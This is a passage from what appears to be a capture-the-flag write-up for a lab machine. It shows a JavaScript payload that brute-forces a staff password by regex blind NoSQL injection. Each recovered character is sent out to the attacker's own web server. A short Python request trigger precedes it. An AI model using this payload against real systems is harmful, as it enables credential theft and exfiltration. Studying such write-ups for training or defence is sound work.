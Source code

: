 ```python
#print(inquiry)

trigger = f'http://10.129.61.14{inquiry}'
p = requests.get(trigger)
```

Then, we need to craft a special JS script that would allow us to brute force the password, and exfiltrate it onto our web server. This can be done using regex Blind NoSQL injection.

While there is probably a way to automate this to retrieve the full password with one run, I was unable to make that work for whatever reason and could only brute force 1 character each time. Here's the Javascript code I used to brute force it:

```javascript
var char_set = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789-_@!?";
var valid_pass = "";
var found_char = false;

for (let k = 0; k < char_set.length && !found_char; k++) {
    var xhr = new XMLHttpRequest();
    xhr.onload = handleResponse;
    xhr.open("POST", "http://staff-review-panel.mailroom.htb/auth.php", true);
    xhr.setRequestHeader('Content-type', 'application/x-www-form-urlencoded;charset=UTF-8');
    xhr.send(encodeURI('email=tristan@mailroom.htb&password[$regex]=^' + valid_pass + char_set[k] + '.*'));

    function handleResponse() {
        var response = xhr.responseText;
        if (response.includes("2FA")) {
            var call = new XMLHttpRequest();
            call.open('get', 'http://10.10.16.31/?pass=' + char_set[k], true);
            call.send();
        } else if (response.includes("Invalid password")) {
            found_char = true;
        }
    };
}
// again, i had help from ruycraft for this script!
```

With this, I was able to retrieve the password character by character:

<figure><img src="../../.gitbook/assets/image (2155).png" alt=""><figcaption></figcaption></figure>

